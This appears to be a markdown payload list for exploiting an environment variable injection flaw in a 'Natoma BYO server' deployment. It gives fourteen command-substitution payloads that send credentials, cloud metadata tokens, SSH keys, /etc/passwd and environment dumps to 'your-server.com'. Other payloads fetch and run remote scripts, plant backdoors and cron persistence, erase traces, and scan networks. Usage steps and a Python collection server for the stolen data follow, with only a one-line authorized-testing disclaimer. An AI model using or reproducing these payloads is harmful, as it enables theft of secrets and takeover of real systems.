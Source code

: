 # Exploitation Payloads for Natoma BYO Server Vulnerability

This document contains various payloads that can be used to exploit the environment variable injection vulnerability in Natoma's BYO server deployment process.

## Basic Command Execution Payloads

### Payload 1: Simple Beacon
```json
{
  "envVars": {
    "MALICIOUS_PAYLOAD": "$(curl http://your-server.com/pwned)",
    "API_KEY": "legitimate_looking_key_123"
  }
}
```

### Payload 2: System Information Exfiltration
```json
{
  "envVars": {
    "DATABASE_URL": "postgresql://$(whoami):$(hostname)@your-server.com/stolen",
    "SYSTEM_INFO": "$(uname -a | curl -X POST -d @- http://your-server.com/sysinfo)"
  }
}
```

### Payload 3: Environment Variable Dump
```json
{
  "envVars": {
    "EXFIL_ENV": "$(env | base64 | curl -X POST -d @- http://your-server.com/env-dump)",
    "NORMAL_VAR": "legitimate_value"
  }
}
```

## Advanced Persistent Payloads

### Payload 4: Multi-Stage Attack
```json
{
  "envVars": {
    "STAGE1": "$(curl -s http://your-server.com/stage1.sh | bash)",
    "CLEANUP": "$(rm -f /tmp/stage1.sh 2>/dev/null || true)",
    "PERSISTENCE": "$(echo '*/5 * * * * curl http://your-server.com/beacon' | crontab -)"
  }
}
```

### Payload 5: Backdoor Installation
```json
{
  "envVars": {
    "BACKDOOR": "$(wget http://your-server.com/backdoor.sh -O /tmp/bd.sh && chmod +x /tmp/bd.sh && /tmp/bd.sh &)",
    "COVER_TRACKS": "$(rm -f /tmp/bd.sh 2>/dev/null)"
  }
}
```

## Stealth Payloads

### Payload 6: Hidden in Legitimate Values
```json
{
  "envVars": {
    "DATABASE_URL": "postgresql://user:pass@db.example.com/app$(curl -s http://your-server.com/hidden)",
    "LOG_LEVEL": "info; curl -s http://your-server.com/stealth >/dev/null 2>&1; echo debug",
    "API_TIMEOUT": "30$(sleep 1 && curl http://your-server.com/delayed)"
  }
}
```

### Payload 7: Base64 Encoded Commands
```json
{
  "envVars": {
    "CONFIG_DATA": "$(echo 'Y3VybCBodHRwOi8veW91ci1zZXJ2ZXIuY29tL2V4cGxvaXQ=' | base64 -d | bash)",
    "ENCODED_PAYLOAD": "dGVzdA=="
  }
}
```

## Cloud-Specific Payloads

### Payload 8: Google Cloud Metadata Access
```json
{
  "envVars": {
    "GCP_TOKEN": "$(curl -H 'Metadata-Flavor: Google' http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token | curl -X POST -d @- http://your-server.com/gcp-token)",
    "INSTANCE_INFO": "$(curl -H 'Metadata-Flavor: Google' http://169.254.169.254/computeMetadata/v1/instance/ | curl -X POST -d @- http://your-server.com/instance-info)"
  }
}
```

### Payload 9: Service Account Key Theft
```json
{
  "envVars": {
    "SA_KEY": "$(find /tmp /var /opt -name '*service-account*' -o -name '*key*.json' 2>/dev/null | head -5 | xargs cat | curl -X POST -d @- http://your-server.com/sa-keys)",
    "CREDENTIALS": "$(env | grep -i 'key\\|token\\|secret\\|pass' | curl -X POST -d @- http://your-server.com/creds)"
  }
}
```

## Time-Delayed Payloads

### Payload 10: Delayed Execution
```json
{
  "envVars": {
    "DELAYED_ATTACK": "$(sleep 300 && curl http://your-server.com/delayed-attack.sh | bash)",
    "SCHEDULED_TASK": "$(at now + 1 hour <<< 'curl http://your-server.com/scheduled.sh | bash')"
  }
}
```

## Network Reconnaissance Payloads

### Payload 11: Internal Network Scanning
```json
{
  "envVars": {
    "NETWORK_SCAN": "$(for i in {1..254}; do ping -c1 192.168.1.$i >/dev/null 2>&1 && echo 192.168.1.$i; done | curl -X POST -d @- http://your-server.com/network-scan)",
    "PORT_SCAN": "$(nmap -sT -O localhost 2>/dev/null | curl -X POST -d @- http://your-server.com/port-scan)"
  }
}
```

### Payload 12: Service Discovery
```json
{
  "envVars": {
    "SERVICES": "$(ps aux | curl -X POST -d @- http://your-server.com/processes)",
    "NETWORK_CONNS": "$(netstat -tulpn 2>/dev/null | curl -X POST -d @- http://your-server.com/netstat)"
  }
}
```

## File System Access Payloads

### Payload 13: Sensitive File Exfiltration
```json
{
  "envVars": {
    "PASSWD_FILE": "$(cat /etc/passwd | base64 | curl -X POST -d @- http://your-server.com/passwd)",
    "SSH_KEYS": "$(find /home /root -name '.ssh' -type d 2>/dev/null | xargs -I {} find {} -name 'id_*' 2>/dev/null | xargs cat | curl -X POST -d @- http://your-server.com/ssh-keys)",
    "CONFIG_FILES": "$(find /etc -name '*.conf' -o -name '*.cfg' 2>/dev/null | head -10 | xargs cat | curl -X POST -d @- http://your-server.com/configs)"
  }
}
```

## Container Escape Payloads

### Payload 14: Container Breakout Attempt
```json
{
  "envVars": {
    "BREAKOUT": "$(docker ps 2>/dev/null | curl -X POST -d @- http://your-server.com/docker-info)",
    "MOUNT_INFO": "$(mount | curl -X POST -d @- http://your-server.com/mounts)",
    "CAPABILITIES": "$(capsh --print | curl -X POST -d @- http://your-server.com/caps)"
  }
}
```

## Usage Instructions

1. **Choose a payload** based on your attack objectives
2. **Set up a collection server** to receive exfiltrated data
3. **Create the BYO server** in Natoma with the malicious environment variables
4. **Monitor your server** for incoming data
5. **Analyze the results** to plan further exploitation

## Collection Server Setup

Simple Python server to collect data:

```python
from http.server import HTTPServer, BaseHTTPRequestHandler
import json
from datetime import datetime

class CollectionHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')
        
        timestamp = datetime.now().isoformat()
        print(f"[{timestamp}] Received data from {self.client_address[0]}:")
        print(post_data)
        print("-" * 50)
        
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'OK')

if __name__ == '__main__':
    server = HTTPServer(('0.0.0.0', 8080), CollectionHandler)
    print("Collection server running on port 8080...")
    server.serve_forever()
```

## Warning

These payloads are for authorized security testing only. Unauthorized use is illegal and unethical. Always ensure you have proper authorization before testing these vulnerabilities.
